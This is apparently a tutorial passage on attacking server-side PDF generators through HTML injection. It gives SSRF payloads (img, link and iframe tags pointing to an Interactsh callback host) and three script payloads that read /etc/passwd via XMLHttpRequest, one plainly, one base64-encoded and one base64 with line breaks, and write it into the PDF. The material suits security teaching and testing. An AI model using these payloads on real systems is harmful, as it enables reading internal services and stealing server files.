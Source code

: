 

One of the most common vulnerabilities in combination with PDF generation is Server-Side Request Forgery (SSRF). Since HTML documents commonly load resources such as stylesheets or images from external sources, displaying an HTML document inherently requires the server to send requests to these external sources to fetch them. Since we can inject arbitrary HTML code into the PDF generator's input, we can force the server to send such a GET request to any URL we choose, including internal web applications.

We can inject many different HTML tags to force the server to send an HTTP request. For instance, we can inject an image tag pointing to a URL under our control to confirm SSRF. As an example, we are going to use the img tag with a domain from Interactsh:

Code: html
```
<img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>
```

Similarly, we can also inject a stylesheet using the link tag:

Code: html
```
<link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2" >
```
Generally, for images and stylesheets, the response is not displayed in the generated PDF such that we have a blind SSRF vulnerability which restricts our ability to exploit it. However, depending on the (mis-)configuration of the PDF generation library, we can inject other HTML elements that can trigger a request and make the server display the response. An example of this is an iframe:

Code: html
```
<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>
```
##
##


<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

##
##

<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(btoa(this.responseText))
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

##
##

<script>
	function addNewlines(str) {
		var result = '';
		while (str.length > 0) {
		    result += str.substring(0, 100) + '\n';
			str = str.substring(100);
		}
		return result;
	}

	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(addNewlines(btoa(this.responseText)))
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

